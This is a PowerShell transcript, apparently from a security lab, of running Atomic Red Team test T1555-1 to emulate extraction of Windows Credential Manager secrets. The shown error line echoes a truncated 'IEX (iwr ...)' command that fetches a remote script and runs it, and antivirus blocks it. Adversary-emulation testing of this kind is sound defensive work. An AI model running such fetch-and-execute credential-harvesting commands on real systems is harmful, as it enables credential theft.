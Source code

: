 ﻿# T1555

**********************
Windows PowerShell transcript start
Start time: 20210501212212
Username: DESKTOP-5BHJDMU\student
RunAs User: DESKTOP-5BHJDMU\student
Configuration Name: 
Machine: DESKTOP-5BHJDMU (Microsoft Windows NT 10.0.19042.0)
Host Application: powershell.exe
Process ID: 4340
PSVersion: 5.1.19041.906
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.19041.906
BuildVersion: 10.0.19041.906
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\student\Desktop\T1555.md

## Test 1

PS C:\Users\student> Invoke-AtomicTest T1555 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1555-1 Extract Windows Credential Manager via VBA

Done executing test:
T1555-1 Extract Windows Credential Manager via VBA

At line:1 char:1
+ & {IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-ato ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus
software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordExcepti
   on
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS C:\Users\student> stop-transcript
**********************
Windows PowerShell transcript end
End time: 20210501212259
**********************
